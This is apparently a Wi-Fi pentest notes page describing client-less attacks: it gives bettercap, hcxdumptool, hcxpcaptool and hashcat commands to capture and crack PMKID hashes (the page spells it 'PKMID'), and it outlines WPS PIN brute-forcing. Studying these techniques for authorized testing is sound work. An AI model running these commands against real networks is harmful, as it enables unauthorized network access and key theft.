 # Attacks without Clients

In this section we are not going to capture any type of handshake to obtain the hash or key. We are goin to attack the network in a client-less mode.

## PKMID Attack

This attack allows us to break the technology using Pairwise Master Key Identifier (PKMID) which is a characteristic available in a lot of devices.

### Via Bettercap

The results will be exported on a pcap file.

```
bettercap -iface <IFACE>

iface >> wifi.recon on
iface >> wifi.show

iface >> wifi.assoc all
```

### Via hcxdumptool

Same as bettercap, the results will be exported on a pcap file.

```
hcxdumptool -i <IFACE> -o <OUT_FILE> --enable_status=1
```

### Export results fo hashcat && Cr4ck it!

Using `hcxpcaptool` we can easily transform the output of bettercap or hcxdumptool to hashcat.

```
hcxpcaptool -z hashes.hash Capture.pcap

hashcat -m 16800 -d 1 -w 3 hashesh.hash /usr/share/wordslist/rockyou.txt
```

## WPS Attack

Wifi Protected Setup aka WPS is a wireless network security standard that tries to make connections between a router and devices faster and easier.

`WPSPinGenerator` is an automatic tool available in `Wifislax`.

First we need to choose the interface to work with and the channels where we want to listen. We can see the generic PINS if they are available on the network by selection the suitable SSID.

Finally we just need to test the PIN and wait for success. Noticed that after 3 fail attempts the WPS could lock.
